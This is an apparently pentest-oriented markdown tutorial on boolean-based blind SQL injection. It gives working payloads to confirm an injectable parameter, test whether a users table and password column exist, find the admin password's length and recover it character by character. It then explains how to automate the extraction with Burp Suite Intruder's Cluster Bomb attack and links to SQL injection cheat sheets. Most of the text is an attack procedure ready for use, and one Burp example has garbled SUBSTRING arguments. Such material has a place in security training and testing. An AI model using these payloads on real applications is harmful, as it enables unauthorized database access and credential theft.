

This technique involves injecting conditions that return either **true** or **false**, observing the application's response.


---
## Cheat Sheets
It is very important to consult these resources available in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to correctly execute an SQL injection attack after verifying its existence:
- [MySQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) 
- [Oracle SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)  
- [PostgreSQL SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
- [SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


---


## 1. Verify Injection Point

Modify a parameter (e.g., `id`) to check if the application is vulnerable.

- **True Condition (Response is Normal):**
```sql
' AND 1=1 -- 
```
- **False Condition (Response is Different):**
```sql
' AND 1=2 -- 
```
If the response changes, the injection point is confirmed.

>**Note:** If the parameter is a numeric value (e.g., post_id=1), the boolean injection after the quote may not be necessary, as the number itself can be tested directly (e.g., post_id=1 OR 1=1).
## 2. Determine Table Existence

Check if a table (e.g., `users`) exists:
```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```
If the response is **true**, the table `users` exists.

## 3.Determine Column Existence

Test for a specific column (e.g., `password` in `users` table):
```sql
' AND (SELECT 'a' FROM users WHERE password IS NOT NULL LIMIT 1)='a
```
If the response is **true**, the column `password` exists.

## 4. Extract Password Length

Use the `LENGTH()` function to find the length of the password:
```sql
' AND (SELECT 'a' FROM users WHERE username='admin' AND LENGTH(password)>1)='a
```
Increase the number until the response turns **false**, identifying the password length.

## 5. Extract Password Characters One by One

Use `SUBSTRING()` to retrieve each character. Example for the first character:
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a 
```
Repeat this process for all positions to reconstruct the full password.

#### Extracting characters using Burpsuite
1. **Send the Vulnerable Request to Intruder**  
   - Capture the vulnerable request in **Burp Suite**.  
   - Send it to Intruder (`Ctrl+I` or right-click → "Send to Intruder").  

2. **Set the Attack Type to Cluster Bomb**  
   - Go to the "Intruder" tab and select the "Positions" sub-tab.  
   - Set the attack type to "Cluster Bomb" (since we will use multiple payloads).  

3. **Configure the First Payload (Character Position)**  
   - Identify the parameter that references the **character position** in the SQL query, such as  `SUBSTRING(password, {POSITION}, 1)`
   - Select this position placeholder in the request.  
   - Assign it a numeric payload from 1 to the expected password length (e.g., `1-20`).  

4. **Configure the Second Payload (Character Extraction)**  
   - Identify the parameter that represents the **character to be checked** in the password, such as `SUBSTRING(password, POSITION, POSITION) = '{CHARACTER}'`
   - Select this parameter and assign it a character payload.  

5. **Set Up "Grep - Match" for Response Analysis**  
   - Navigate to the "Options" tab in Intruder.  
   - In the "Grep - Match" section, add a keyword that appears only in successful responses.


6. Start the Attack  
   - Click the **"Start Attack"** button.  

7. Analyze the Results  
   - Burp Suite will generate a results table with multiple payload combinations.  
   - Look for a column with the keyword added in **Grep - Match**.  
   - The requests containing a **match** indicate a **correct character**.  
   - **Repeat the attack** for each position until the full password is extracted.  